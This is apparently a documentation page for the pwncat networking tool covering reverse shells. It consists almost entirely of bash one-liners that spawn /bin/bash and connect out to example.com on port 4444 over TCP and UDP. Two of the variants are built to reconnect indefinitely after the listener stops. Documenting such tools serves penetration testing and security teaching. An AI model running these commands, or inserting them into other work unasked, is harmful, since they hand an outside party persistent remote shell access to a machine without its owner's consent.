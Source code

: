 *************
Reverse Shell
*************


TCP Reverse shell
=================

Default TCP reverse shell connecting to ``example.com:4444`` which behaves exactly as ``nc``.

.. code-block:: bash

   pwncat -e '/bin/bash' example.com 4444


The following is a Ctrl+c proof TCP reverse shell. If you stop your local listener, the reverse shell will automatically connect back to you indefinitely.

.. code-block:: bash

   pwncat -e '/bin/bash' example.com 4444 --reconn --recon-wait 1


UDP Reverse shell
=================

Default UDP reverse shell which behaves exactly as ``nc``.

.. code-block:: bash

   pwncat -e '/bin/bash' example.com 4444 -u


The following is a Ctrl+c proof UDP reverse shell. If you stop your local listener, the reverse shell will automatically connect back to you indefinitely.

.. code-block:: bash

   pwncat -e '/bin/bash' example.com 4444 -u --ping-intvl 1
